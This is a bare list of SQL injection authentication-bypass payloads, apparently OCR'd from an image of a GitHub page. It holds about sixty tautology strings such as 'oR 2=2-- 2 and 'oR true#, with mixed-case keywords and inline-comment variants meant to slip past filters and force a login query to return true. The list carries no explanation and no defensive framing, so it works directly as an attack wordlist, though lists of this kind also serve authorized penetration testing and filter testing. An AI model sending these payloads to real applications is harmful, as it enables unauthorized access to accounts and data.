 ```
"oR"2"oR"
"oR(2)-- 2
"oR(2)#
"oR(2)/*
"oR(2)oR"
"oR 2-- 2
"oR 2#
"oR 2/*
"oR 2 oR"
"oR/**/2-- 2
"oR/**/2#
"oR/**/2/*
"oR/**/2/**/oR"
'oR'2'='2
'oR'2'='2'oR'
'oR'2'='2'-- 2
'oR'2'='2'#
'oR'2'='2'/*
'oR 2=2-- 2
'oR 2=2#
'oR 2=2/*
'oR 2=2 oR'
'oR/**/2=2-- 2
'oR/**/2=2#
'oR/**/2=2/*
'oR/**/2=2/**/oR'
'oR(2)=2-- 2
'oR(2)=2#
'oR(2)=2/*
'oR(2)=(2)oR'
'oR'2'='2' LimIT 1-- 2
'oR'2'='2' LimIT 1#
'oR'2'='2' LimIT 1/*
'oR(2)=(2)LimIT(1)-- 2
'oR(2)=(2)LimIT(1)#
'oR(2)=(2)LimIT(1)/*
"oR"2"="2
"oR"2"="2"oR"
"oR"2"="2"-- 2
"oR"2"="2"#
"oR"2"="2"/*
"oR 2=2-- 2
"oR 2=2#
"oR 2=2/*
"oR 2=2 oR"
"oR/**/2=2-- 2
"oR/**/2=2#
"oR/**/2=2/*
"oR/**/2=2/**/oR"
"oR(2)=2-- 2
"oR(2)=2#
"oR(2)=2/*
"oR(2)=(2)oR"
"oR"2"="2" LimIT 1-- 2
"oR"2"="2" LimIT 1#
"oR"2"="2" LimIT 1/*
"oR(2)=(2)LimIT(1)-- 2
"oR(2)=(2)LimIT(1)#
"oR(2)=(2)LimIT(1)/*
'oR true-- 2
'oR true#
'oR true/*
'oR true oR'
```